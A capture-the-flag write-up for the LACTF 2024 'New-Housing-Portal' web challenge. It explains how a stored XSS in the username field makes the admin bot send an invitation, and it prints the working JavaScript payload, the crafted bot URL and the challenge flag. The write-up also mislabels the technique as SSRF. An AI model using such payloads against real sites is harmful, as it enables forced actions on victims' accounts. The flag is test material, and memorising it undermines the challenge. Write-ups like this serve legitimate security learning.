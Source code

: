 ```yaml
---
title: New-Housing-Portal
date: 2024-02-18T20:05:23+02:00
description: Writeup for New-Housing-Portal [Lactf 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

After that old portal, we decided to make a new one that is ultra secure and not based off any real housing sites. Can you make Samy tell you his deepest darkest secret?

## Intuition

When I register to the website I can exploit an XSS vulnerability on my username. In order to get the flag I need to get an invitation from
the admin. In order to force the admin to send me an invitation I probably have to use an SSRF vulnerability to make him use the invitation request API. 
To resume, I can use the XSS vulnerability chained with an SSRF to get the flag. The xss payload used to discover the vulnerability is the following:

```html
<img src=x onerror="alert('vulnerable')">
```

![XSS](/images/lactf_2024/xss.png)

## Solution

First I need to register using the following XSS payload as username:

```html
<img src=x onerror="var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/finder',true);
req.send();
function handleResponse(d) {
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/finder', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('username=brole');
};">
```

The above payload use an SSRF exploit to call the invitation request API and send an invitation to the user `brole`.
Then, I will register another account which will receive the invitation of the admin (brole in this case). The next step is to 
use the admin bot link and send him the following link which is the URL to my XSS vulnerable profile:

```http request
https://new-housing-portal.chall.lac.tf/finder/?q=<img src=x onerror="var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/finder',true); req.send(); function handleResponse(d) {     var changeReq = new XMLHttpRequest();     changeReq.open('post', '/finder', true);     changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');     changeReq.send('username=brole'); };">

```
The bot will visit the profile and in background it will send the invitation to the user `brole`. After that, I will receive the invitation and I can use it to get the flag.

![XSS flag](/images/lactf_2024/secret.png)


### Flag

`lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}`


